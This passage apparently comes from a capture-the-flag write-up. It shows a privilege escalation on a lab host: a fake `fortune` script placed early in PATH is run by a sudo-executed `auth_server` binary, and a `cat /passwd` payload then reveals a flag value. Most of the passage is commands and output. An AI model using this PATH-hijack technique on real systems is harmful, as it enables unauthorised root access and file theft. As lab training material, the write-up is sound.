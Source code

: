 Now we can create a POC to test if the `fortune` override works:

```python
#!/usr/bin/python
print 'a'
```

Checking this for jetta and sudo:

```bash
[jetta@Relativity auth_server]$ PATH=/home/jetta:$PATH ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
[jetta@Relativity auth_server]$ PATH=/home/jetta:$PATH sudo ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Nice, we can then use this to read the content of the `/passwd` file:

```bash
#!/usr/bin/bash
cat /passwd
```

Result:

```bash
[jetta@Relativity auth_server]$ PATH=/home/jetta:$PATH sudo ./auth_server
[+] Checking Certificates...done
[+] Contacting server, please wait...could not establish connection
error: (12)
 __________________________________
< b67def6bcb2112a963a3ade37773650e >
 ----------------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
